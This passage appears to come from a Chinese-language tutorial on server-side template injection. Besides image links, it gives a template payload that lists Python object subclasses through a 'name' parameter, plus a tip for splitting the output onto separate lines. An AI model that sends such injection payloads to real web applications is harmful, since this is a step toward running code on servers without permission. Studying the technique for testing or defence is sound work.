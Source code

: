 <img src="SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407093329678.png" alt="image-20240407093329678"  />

```
name={{"".__class__.__base__.__subclasses__()}}
```

![image-20240407093402260](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407093402260.png)

将上面的内容复制的到notepad++中，将逗号换成换行符
